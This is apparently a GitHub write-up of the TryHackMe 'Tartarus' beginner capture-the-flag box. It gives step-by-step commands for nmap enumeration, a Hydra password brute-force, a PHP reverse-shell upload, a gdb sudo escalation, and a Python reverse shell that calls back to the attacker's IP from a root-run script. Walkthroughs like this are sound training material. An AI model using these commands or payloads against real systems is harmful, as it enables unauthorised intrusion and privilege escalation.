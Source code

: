 # TryHackMe_Tartarus
This is an beginner box based on simple enumeration of services and basic privilege escalation techniques.

The goal is to find user.txt and root.txt

# Gain access to the machine

Run nmap 

```
nmap -sC -sV -oN namp_results.txt
```

And you'll find three port open.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.24.148
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 98:6c:7f:49:db:54:cb:36:6d:d5:ff:75:42:4c:a7:e0 (RSA)
|   256 0c:7b:1a:9c:ed:4b:29:f5:3e:be:1c:9a:e4:4c:07:2c (ECDSA)
|_  256 50:09:9f:c0:67:3e:89:93:b0:c9:85:f1:93:89:50:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The FTP protocol has anonymous connection enable., so connect whith FTP and un 

```
ls -la
```

Notice a wierd folder named '...', follow the path to find the hidden login page.
To get some credentials, check the robots.txt, i user the python script in this repo to get the login but Hydra will do the job.

```
hydra -l enox -P credentials.txt {machine ip} http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect password!"
```

Once you logged in you can upload a file,
i suggest a php reverse shell,
use gobuster to find where is located the rev shell

```
gobuster dir -u {machine ip}/sUp3r-s3cr3t/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Once you find the reverse shell set up a listener

```
nc -lnvp {the port in the rev shell file}
```

and then make the shell stabile

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

# User escalation

Ok now we are in, let's check if there's a SUID to escalate

```
sudo -l
```

You can see that gdb is runnable wothout password, use GTFOBins (grat site!) to escalate.

```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

Now you are thirtytwo.

# Root escalation

Look around in the /home directory and you'll see a cleanup.py file, this file can be run as root.
Let's edit th file with 

```
nano cleanup.py
```

and replace the content with 
```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("{your ip}",{any port you want}));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

on your machine setup another listener with the port you choose and BOOM!, you are root.

# Find the flags

Run the two following commands

```
find / -name 'user.txt' 2>/dev/null
```
and
```
find / -name 'root.txt' 2>/dev/null
```
 and you're done!
 
 # CONGRATULATIONS!
